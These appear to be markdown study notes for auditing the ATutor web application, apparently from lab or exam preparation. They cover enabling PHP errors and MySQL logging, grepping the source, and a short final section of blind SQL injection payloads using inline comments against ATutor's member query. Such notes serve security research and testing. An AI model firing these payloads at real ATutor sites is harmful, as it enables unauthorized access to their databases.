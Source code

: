 ### Turn on Errors in PHP

> sudo nano /etc/php5/apache2/php.ini 
> Search (ctrl+w) for "display_errors = " and change Off to On
> sudo systemctl restart apache2

### Turn on logging in MySQL

> sudo nano /etc/mysql/my.cnf 
> Search (ctrl+w) for "general_log_file", enable this and general_log
> sudo systemctl restart mysql

Monitor MySQL Queries:
> tail -f /var/log/mysql/mysql.log

### Grep search: 
> grep -rnw /var/www/html/ATutor -e "^.*user_location.*public.*" --color

### Information Gathering

> echo "<?php var_dump(get_magic_quotes_gpc()); ?>" > info.php
> echo "<?php echo 'PHP Version: ' . phpversion().\"\r\n\"; ?>" >> info.php

### SQL inline comments to replace spaces

> mysql> select/**/1;

### SQL Blind Injection Payloads

%23 is # sign, interpreted by MySQL as a comment, terminating the rest of the query

True:
> AAAA')/**/or/**/(select/**/1)=1%23

> select count(*) FROM AT_members M WHERE (first_name LIKE '%AAAA')/**/OR/**/ (select/**/1)=1#

False:
> AAAA')/**/or/**/(select/**/1)=0%23
